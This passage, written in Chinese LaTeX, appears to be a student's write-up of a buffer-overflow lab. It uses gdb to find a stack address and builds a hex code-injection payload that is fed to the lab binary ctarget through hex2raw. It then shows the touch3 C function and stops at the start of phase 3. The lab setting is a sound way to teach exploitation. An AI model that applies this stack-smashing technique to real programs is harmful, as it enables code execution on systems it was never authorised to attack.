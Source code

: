 \documentclass{article}
\begin{document}
我们需要知道该段攻击代码被插入的位置，可以使用GDB调试器来达到该目的。假设我们将攻击代码放在字符串的开头，注意到在getbuf()函数中，0x4017ac地址处的指令时，栈指针已经分配完毕。因此我们可以在此处设置断点并查看$\%rsp$寄存器的值。

\begin{lstlisting}[language=bash]
    (gdb) b *0x4017ac
    Breakpoint 1 at 0x4017ac: file buf.c, line 14.
    (gdb) r -q
    Starting program: /home/pdli/Desktop/lab3/target1/ctarget -q
    Cookie: 0x59b997fa

    Breakpoint 1, getbuf () at buf.c:14
    14      buf.c: 没有那个文件或目录.
    (gdb) p/x $rsp
    $1 = 0x5561dc78
\end{lstlisting}

得知攻击代码插入的地址应为0x5561dc78。

因此，我们可以构造一份十六进制数据，起始为攻击代码，接下来用任意数据填充至四十字节，并在最后写入攻击代码的地址。构造的十六进制数据phase2.txt如下。

\begin{lstlisting}[title=为phase\_2构造的十六进制数据, numbers=none,xleftmargin = 9em,xrightmargin = 9em]
  48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  78 dc 61 55 00 00 00 00  
\end{lstlisting}
使用工具hex2raw将其转换成攻击字符串并运行程序。

\begin{lstlisting}[language=bash]
    linux> ./hex2raw < phase2.txt | ./ctarget -q
  \end{lstlisting}

\paragraph{3) phase\_3}在本部分，我们需要使getbuf()函数返回的时，执行touch3()而不是返回test()。

函数touch3()的C代码如下所示。

\begin{lstlisting}[title = 函数touch3()的C代码, xleftmargin = 4em,xrightmargin = 4em, aboveskip = 1em, numbers = left, language = C]
    void touch3(char *sval)
    {
        vlevel = 3; /* Part of validation protocol */
        if (hexmatch(cookie, sval)) {
            printf("Touch3!: You called touch3(\"%s\")\n", sval);
            validate(3);
        } else {
            printf("Misfire: You called touch3(\"%s\")\n", sval);
            fail(3);
        }
        exit(0);
    }
\end{lstlisting}
\end{document}
